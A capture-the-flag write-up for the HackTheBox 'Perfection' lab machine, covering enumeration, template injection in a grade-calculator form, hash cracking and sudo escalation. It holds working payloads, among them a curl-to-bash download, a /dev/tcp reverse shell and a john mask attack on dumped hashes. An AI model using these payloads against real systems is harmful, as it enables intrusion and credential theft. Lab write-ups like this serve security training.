



# Perfection - HackTheBox - Writeup
Linux, 20 Base Points, Easy


## Machine


 
## TL;DR

To solve this machine, we start by using `nmap` to enumerate open services and find ports `22`, and `80`.

***User***: Discovered command injection vulnerability on the `/weighted-grade-calc` web page. Exploited it to obtain a reverse shell as `susan`. Found hashed credentials in the `pupilpath_credentials.db` file and password pattern in `/var/mail/susan`. Cracked the hash using `john` with the password pattern as a mask.

***Root***: Executed `sudo -l` and found that `susan` is listed in sudoers. Utilized `susan`'s password to obtain the `root` flag.




## Perfection Solution

### User

Let's begin by using `nmap` to scan the target machine:

```console
┌─[evyatar9@parrot]─[/hackthebox/Perfection]
└──╼ $ nmap -sV -sC -oA nmap/Perfection 10.10.11.253
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-16 22:35 IST
Nmap scan report for 10.10.11.253
Host is up (0.071s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80e479e85928df952dad574a4604ea70 (ECDSA)
|_  256 e9ea0c1d8613ed95a9d00bc822e4cfe9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Observing port `80`, we see that the following web page is hosted:



Upon clicking on http://10.10.11.253/weighted-grade, the following web page is displayed:


Upon sending the request, the following POST request is sending:
```http
POST /weighted-grade-calc HTTP/1.1
Host: 10.10.11.253
Content-Length: 204
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.253
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.253/weighted-grade-calc
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

category1=1&grade1=0&weight1=10&category2=b&grade2=0&weight2=20&category3=c&grade3=0&weight3=20&category4=d&grade4=0&weight4=25&category5=a&grade5=0&weight5=25
```

After conducting some research, it was discovered that command injection can be achieved using `%0A<%25%3Dsystem("ping+-c1+10.10.14.14");%25>`. Let's inject it into the `category1` field:
```http
POST /weighted-grade-calc HTTP/1.1
Host: 10.10.11.253
Content-Length: 204
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.253
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.253/weighted-grade-calc
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

category1=1%0A<%25%3Dsystem("ping+-c1+10.10.14.14");%25>&grade1=0&weight1=10&category2=b&grade2=0&weight2=20&category3=c&grade3=0&weight3=20&category4=d&grade4=0&weight4=25&category5=a&grade5=0&weight5=25
```

Successfully injected the command, resulting in ICMP traffic being sent:

```console
┌─[evyatar9@parrot]─[/hackthebox/Perfection]
└──╼ $ sudo tcpdump -i tun0 icmp
[sudo] password for evyatar9: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
23:14:10.979348 IP 10.10.11.253 > 10.10.14.21: ICMP echo request, id 2, seq 1, length 64
23:14:10.979420 IP 10.10.14.21 > 10.10.11.253: ICMP echo reply, id 2, seq 1, length 64
```

Let's obtain a reverse shell using the following payload: `%0A<%25%3Dsystem("curl+http://10.10.14.14:8000/rev.sh|bash");%25>`. The `rev.sh` file should contain the necessary shell commands for establishing a reverse shell:
```console
┌─[evyatar9@parrot]─[/hackthebox/Perfection]
└──╼ $ cat rev.sh 
bash -i >& /dev/tcp/10.10.14.14/4242 0>&1
┌─[evyatar9@parrot]─[/hackthebox/Perfection]
└──╼ $ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```

Sending the payload:
```http
POST /weighted-grade-calc HTTP/1.1
Host: 10.10.11.253
Content-Length: 204
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.253
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.253/weighted-grade-calc
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

category1=1%0A<%25%3Dsystem("curl+http://10.10.14.14:8000/rev.sh|bash");%25>&grade1=0&weight1=10&category2=b&grade2=0&weight2=20&category3=c&grade3=0&weight3=20&category4=d&grade4=0&weight4=25&category5=a&grade5=0&weight5=25
```

A reverse shell is successfully obtained:
```console
┌─[evyatar9@parrot]─[/hackthebox/Perfection]
└──╼ $ nc -lvp 4242
listening on [any] 4242 ...
10.10.11.253: inverse host lookup failed: Unknown host
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.253] 60992
bash: cannot set terminal process group (996): Inappropriate ioctl for device
bash: no job control in this shell
susan@perfection:~/ruby_app$ cat /home/susan/user.txt
cat /home/susan/user.txt
6bcb3fb78d84e8db576982a95b16af21

```

And we get the user flag `6bcb3fb78d84e8db576982a95b16af21`.

### Root

Through enumeration, the following SQLite file was discovered:
```console
susan@perfection:~$ ls -ltra
ls -ltra
total 48
-rw-r--r-- 1 susan susan  807 Feb 27  2023 .profile
-rw-r--r-- 1 susan susan 3771 Feb 27  2023 .bashrc
-rw-r--r-- 1 susan susan  220 Feb 27  2023 .bash_logout
lrwxrwxrwx 1 root  root     9 Feb 28  2023 .bash_history -> /dev/null
lrwxrwxrwx 1 root  root     9 Feb 28  2023 .lesshst -> /dev/null
lrwxrwxrwx 1 root  root     9 Feb 28  2023 .python_history -> /dev/null
lrwxrwxrwx 1 root  root     9 May 14  2023 .sqlite_history -> /dev/null
-rw-r--r-- 1 susan susan   39 Oct 17 12:26 .vimrc
-rw-r--r-- 1 susan susan    0 Oct 27 06:41 .sudo_as_admin_successful
drwxr-xr-x 3 root  root  4096 Oct 27 10:36 ..
drwxrwxr-x 3 susan susan 4096 Oct 27 10:36 .local
drwx------ 2 susan susan 4096 Oct 27 10:36 .cache
drwxr-xr-x 2 root  root  4096 Oct 27 10:36 Migration
drwx------ 3 susan susan 4096 Oct 27 10:36 .gnupg
drwxr-xr-x 4 root  susan 4096 Oct 27 10:36 ruby_app
drwxr-x--- 7 susan susan 4096 Feb 26 09:41 .
-rw-r----- 1 root  susan   33 Mar 16 20:34 user.txt
susan@perfection:~/Migration$ ls -ltra
ls -ltra
total 16
-rw-r--r-- 1 root  root  8192 May 14  2023 pupilpath_credentials.db
drwxr-xr-x 2 root  root  4096 Oct 27 10:36 .
drwxr-x--- 7 susan susan 4096 Feb 26 09:41 ..
susan@perfection:~/Migration$       
```

After downloading the file (using base64/nc), the following content is retrieved:
```console
┌─[evyatar9@parrot]─[/hackthebox/Perfection]
└──╼ $ sqlite3 pupilpath_credentials.db
SQLite version 3.34.1 2021-01-20 14:10:07
Enter ".help" for usage hints.
sqlite> .tables
users
sqlite> select * from users;
1|Susan Miller|abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
2|Tina Smith|dd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57
3|Harry Tyler|d33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393
4|David Lawrence|ff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87a
5|Stephen Locke|154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8
```

Reading the mail `/var/mail/susan`, the following content is observed:
```console
susan@perfection:~/ruby_app$ cat /var/mail/susan
cat /var/mail/susan
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
```

Thus, we can crack the `susan` hash using the following mask `susan_nasus_?d?d?d?d?d?d?d?d?d` with `john`:
```console
┌─[evyatar9@parrot]─[/hackthebox/Perfection]
└──╼ $ john --mask=susan_nasus_?d?d?d?d?d?d?d?d?d --format=Raw-SHA256 hashes
Using default input encoding: UTF-8
Loaded 5 password hashes with no different salts (Raw-SHA256 [SHA256 128/128 SSE2 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
susan_nasus_413759210 (?)
```

And we successfully retrieve the credentials of `susan:susan_nasus_413759210`. Let's utilize these credentials for an SSH connection:
```console
┌─[evyatar9@parrot]─[/hackthebox/Perfection]
└──╼ $ ssh susan@10.10.11.253
The authenticity of host '10.10.11.253 (10.10.11.253)' can't be established.
ECDSA key fingerprint is SHA256:Kr1xZXUlYEUTSkTlvQSjVHuV44hfOSOJ6NpuAB7uP48.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.253' (ECDSA) to the list of known hosts.
susan@10.10.11.253's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-97-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Sat Mar 16 09:56:46 PM UTC 2024

  System load:           0.12744140625
  Usage of /:            58.1% of 5.80GB
  Memory usage:          14%
  Swap usage:            0%
  Processes:             217
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.253
  IPv6 address for eth0: dead:beef::250:56ff:feb9:d4dd


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

4 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

You have mail.
susan@perfection:~$ 
```

Upon running `sudo -l`, the following output is obtained:
```console
susan@perfection:~$ sudo -l
[sudo] password for susan: 
Matching Defaults entries for susan on perfection:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User susan may run the following commands on perfection:
    (ALL : ALL) ALL
```

As `susan` is listed in the sudoers file, let's proceed to read the `root` flag:
```console
susan@perfection:~$ sudo bash
root@perfection:/home/susan# cat /root/root.txt
0e8ff11992889679192a2f441ab82369
```

And we get the root flag `0e8ff11992889679192a2f441ab82369`.
